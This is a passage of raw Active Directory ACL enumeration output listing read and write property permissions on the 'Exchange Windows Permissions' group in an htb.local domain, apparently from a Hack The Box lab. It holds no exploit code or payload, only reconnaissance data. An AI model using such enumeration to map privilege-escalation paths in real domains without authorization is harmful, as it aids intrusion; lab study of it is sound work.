ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : User-Account-Restrictions
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1113
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Exchange-Personal-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Canonical-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : User-Account-Control
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Exchange-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Is-Member-Of-DL
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Garbage-Coll-Period
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Proxy-Addresses
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Proxy-Addresses
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Pwd-Last-Set
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Show-In-Address-Book
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Show-In-Address-Book
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Exchange-Personal-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Exchange-Personal-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Admin-Display-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Admin-Display-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Group-Type
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Managed-By
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Mailbox-Security-Descriptor
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-UM-Server-Writable-Flags
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Picture
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Display-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Display-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Public-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-User-Culture
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Display-Name-Printable
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Display-Name-Printable
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : E-mail-Addresses
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : E-mail-Addresses
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : User-Account-Control
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Country-Code
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Mobile-Mailbox-Flags
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Safe-Recipients-Hash
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : WWW-Home-Page
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : X509-Cert
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-UM-Dtmf-Map
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Blocked-Senders-Hash
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Personal-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Text-Encoded-OR-Address
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Text-Encoded-OR-Address
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Exchange-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Exchange-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Public-Delegates
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Public-Delegates
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Public-Delegates
